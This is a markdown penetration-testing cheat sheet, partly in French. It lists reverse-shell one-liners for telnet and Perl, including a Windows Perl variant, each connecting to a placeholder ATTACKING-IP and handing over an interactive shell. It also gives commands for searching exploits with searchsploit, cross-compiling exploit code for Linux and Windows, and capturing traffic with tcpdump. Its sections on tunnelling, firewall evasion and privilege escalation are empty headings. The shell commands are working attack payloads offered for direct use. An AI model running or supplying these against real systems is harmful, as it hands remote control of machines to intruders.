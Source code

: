  #### Telnet Reverse Shell
 
 ```bash
 rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p
 
telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443
# Ecouté aussi sur le port 443 aussi
 ```
 
 #### Perl Reverse Shell
 
 ```bash
 perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
 ```
 
 #### Perl Windows Reverse Shell
 
 ```bash
 perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"ATTACKING-IP:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
 
 perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
 ```
 ## Exploit Research
 ```bash
searchsploit windows 2003 | grep -i local 
```
### Compiling exploits for Linux/Windows
```bash
#Compile C code, add –m32 after ‘gcc’ for compiling 32 bit code on 64 bit Linux
gcc -o exploit exploit.c

Compile windows .exe on Linux
i586-mingw32msvc-gcc exploit.c -lws2_32 -o exploit.exe
```


## Packet Inspection 
```
#tcpdump du port 80 sur l'interface eth0, dans le fichier output.pcap
tcpdump tcp port 80 -w output.pcap -i eth0
```
 ## Port tunelling / Redirection
 ## Firewall Evasion
 ## Privilege escalation
 #### Windows 
 ---
    Link :
 ---
 
 
 